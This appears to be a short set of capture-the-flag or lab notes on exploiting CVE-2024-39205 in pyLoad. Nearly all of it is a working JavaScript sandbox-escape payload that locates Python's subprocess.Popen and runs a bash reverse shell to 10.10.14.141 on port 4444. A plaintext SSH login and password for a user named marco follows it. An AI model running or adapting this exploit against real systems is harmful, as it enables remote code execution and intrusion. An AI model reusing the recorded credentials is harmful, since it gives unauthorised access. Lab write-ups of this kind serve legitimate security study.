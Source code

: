 ![[IMG-20250817194237447.png]]

[CVE  2024-39205](https://github.com/Marven11/CVE-2024-39205-Pyload-RCE/tree/main?tab=readme-ov-file)
Payload:

```js
// [+] command goes here:
let ip = "10.10.14.141";
let port = 4444;
let cmd = "bash -c 'bash -i >& /dev/tcp/" + ip + "/" + port + " 0>&1'";
let hacked, bymarve, n11
let getattr, obj

hacked = Object.getOwnPropertyNames({})
bymarve = hacked.__getattribute__
n11 = bymarve("__getattribute__")
obj = n11("__class__").__base__
getattr = obj.__getattribute__

function findpopen(o) {
    let result;
    for(let i in o.__subclasses__()) {
        let item = o.__subclasses__()[i]
        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {
            return item
        }
        if(item.__name__ != "type" && (result = findpopen(item))) {
            return result
        }
    }
}

n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()
console.log(n11)
function f() {
    return n11
}
```

![[IMG-20250819023447281.png]]


![[IMG-20250819012840908.png]]

![[IMG-20250819013501470.png]]

### ssh
login: marco
password: sweetangelbabylove

![[IMG-20250819013642504.png]]


